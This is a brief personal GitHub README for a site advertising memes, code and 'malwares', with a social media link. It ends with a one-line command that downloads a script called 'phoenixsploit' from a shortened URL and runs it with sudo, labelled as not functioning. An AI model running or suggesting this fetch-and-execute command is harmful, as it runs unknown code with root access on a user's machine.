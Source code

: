 # phoenixthrush.github.io
Just memes, codes, malwares, an archive and lots more lol!

Follow me if u wanna get a&nbsp;<a href="https://instagram.com/phoenixthrush">:cookie: &nbsp;</a>lmao

<br>
<br>

NEW UPDATE!
DOES NOT FUNCTION

wget https://bit.ly/phoenixsploit phoenix.sh && sudo chmod +x phoenix.sh && sudo ./phoenix.sh
